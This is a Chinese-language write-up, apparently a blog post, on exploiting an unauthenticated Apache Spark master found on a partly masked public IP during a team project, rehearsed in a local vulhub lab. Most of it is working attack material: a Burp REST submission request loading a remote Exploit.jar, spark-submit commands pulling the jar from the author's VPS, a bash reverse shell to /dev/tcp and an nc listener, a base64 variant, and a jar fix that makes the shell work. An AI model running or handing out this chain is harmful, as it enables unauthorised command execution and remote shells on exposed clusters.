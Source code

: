 # 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
# 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，用POC直接打，不出意外的攻击失败  
（这里记录一下：阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，具体原因未知）  
# 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
（这里记录一下：搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名，有时容易忽略使用sudo）  

环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，能够成功访问，说明环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先测试本地6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败  

思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求，成功获得响应  
响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

测试本地7077端口的漏洞利用
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
（这里记录一下：下载spark-submit时不要下载源码包，要下载二进制安装包，否则会报错）  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell  

思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，可通过此网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell

继续排查，查看Exploit.jar的源代码会发现，原作者是对命令进行逗号分隔，导致base64编码后的命令被逗号分隔，如下
```
String[] cmds = args[0].split(",");

bash -c {echo,YmFzaCAtaSA+JiAvZGxxxxxxxxxxxxEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```
知道问题了，我们可以将逗号分隔改为下划线分隔，并打包为jar包，现成的jar包已经打包好，位于当前目录下  
（如果仔细看上面的burp请求，会发现我已经在命令之间加了一个下划线）    

再次执行后成功接收到反弹shell  
![image](./pic/1.png)  

# 0x04 参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
